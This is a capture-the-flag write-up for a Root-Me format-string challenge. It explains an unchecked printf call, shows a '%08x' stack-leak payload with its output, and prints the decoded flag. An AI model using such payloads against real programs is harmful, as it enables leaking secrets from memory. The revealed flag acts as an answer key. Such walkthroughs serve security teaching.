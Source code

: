 # ELF x86 - Format string bug basic 1
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-1
```
Pwn the binary, read the flag in .passwd.

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch5@challenge02.root-me.org  
Username	app-systeme-ch5
Password	app-systeme-ch5
```

According to the provided source code, the program reads the **.passwd** file and prints a messsage given by the user (argv[1]).<br>
The _printf_ function prints an uncontrolled string, and therefore the program is vulnerable for format string attacks.<br>
Because the program reads the file into a local buffer, the flag should be in the stack. Therefore, there is no need for a shell, just printing the stack values using the vulnerable _printf_ function.<br><br>

First, let's verifiy that the program actually prints the stack values:
```sh
app-systeme-ch5@challenge02:~$ ./ch5 `python -c "print '%08x,'*14"`
00000020,0804b008,b7e562f3,00000000,08049ff4,00000002,bffffc14,bffffd32,0000002f,0804b008,39617044,28293664,6d617045,00000a64,
```

The end of the output looks suspicious. If we'll convert the last 4 words we should get "9apD()6dmapEd".<br>
And if we'll convert it to big-endian format (as it should be - the memory saves the bytes in little endian) then we should get the flag "Dpa9d6)(Epamd".
